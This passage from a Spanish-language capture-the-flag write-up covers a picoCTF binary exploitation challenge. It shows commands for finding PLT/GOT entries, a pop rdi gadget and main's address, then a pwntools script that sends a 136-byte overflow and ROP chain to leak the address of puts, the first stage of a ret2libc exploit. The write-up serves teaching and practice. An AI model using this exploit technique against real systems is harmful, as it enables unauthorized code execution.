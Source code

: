 ### puts en PLT y puts en GOT

Para sacar puts en PLT podemos usar: ```objdump -d vuln_patched | grep puts``` y esto nos da:

```
0000000000400540 <puts@plt>:
  400540:	ff 25 d2 0a 20 00    	jmp    *0x200ad2(%rip)        # 601018 <puts@GLIBC_2.2.5>
  400769:	e8 d2 fd ff ff       	call   400540 <puts@plt>
  400891:	e8 aa fc ff ff       	call   400540 <puts@plt>
```
Y vamos a ocupar la ```400540```

Y para sacer puts en GOT podemos usar: ```objdump -R vuln_patched | grep puts```:

```0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5```

Y es la ```601018```

### pop rdi

Para sacar esto podemos hacer uso de ```ropper```, ```ROPGadget``` o radare con el comando ```/R```, en mi caso usare ropper con el comando ```ropper -f vuln_patched | grep 'rdi'``` y usaremos este ```0x0000000000400913: pop rdi; ret; ```

Esto lo hacemos ya que debemos de meter puts en GOT en rdi 

### Direccion de main

Otra cosa importante es la direccion de main, ya que con esta el programa sabra a donde regresar o no petara

```
readelf -s vuln | grep main                                                                                                                          ─╯
    63: 0000000000400771   305 FUNC    GLOBAL DEFAULT   13 main
```

### Ejecutando el exploit

```py
from pwn import *

host = "mercury.picoctf.net"
puerto = 42072 #<-- Esto lo cambias

p = remote(host,puerto)

padding = b"A" * 136
pop_rdi = 0x400913
puts_got = 0x601018
puts_plt = 0x400540
main = 0x400771

payload = padding
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.recvuntil(b'WeLcOmE To mY EcHo sErVeR!\n')
p.sendline(payload)
p.recvline()

puts = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Direccion de puts en tiempo de ejecucion: {hex(puts)}")
```